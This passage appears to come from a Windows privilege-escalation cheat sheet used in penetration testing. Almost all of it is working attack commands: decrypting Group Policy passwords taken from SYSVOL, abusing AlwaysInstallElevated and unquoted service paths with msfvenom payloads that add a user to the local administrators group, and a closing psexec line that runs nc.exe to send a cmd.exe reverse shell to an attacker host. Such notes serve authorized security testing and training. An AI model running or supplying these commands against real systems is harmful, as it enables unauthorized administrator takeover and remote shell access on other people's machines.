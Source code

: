 > Now we mount it
`net use z: \\192.168.1.101\SYSVOL`

> Now we search for the groups.xml file
> `dir Groups.xml /s`

> decrypt the password in it
> `gpp-decrypt <pass>`

## AlwaysInstallElevated
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

> From the output, notice that “AlwaysInstallElevated” value is 1.

## Exploitation

```powershell
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f msi-nouac -o setup.msi
Place 'setup.msi' in 'C:\Temp'
msiexec /quiet /qn /i C:\Temp\setup.msi
net localgroup Administrators
```

## Find writable files

`dir /a-r-d /s /b`
/a is to search for attributes. In this case r is read only and d is directory. (look for writable files only)
/s means recurse subdirectories
/b means bare format. Path and filename only.

## Unquoted Path

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """ 
# Suppose we found: C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
# check for permissions of folder path
icacls "C:\Program Files (x86)\Program Folder"
```

## exploit

```powershell
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
#Open command prompt and type: 
sc start unquotedsrvc
net localgroup Administrators
```

---

# psexec using found credentials
# first upload nc.exe to a writable directory
`psexec.exe -u <username> -p <password> \\MACHINENAME C:\Inetpub\nc.exe <attackerip> <attackerport> -e C:\windows\system32\cmd.exe`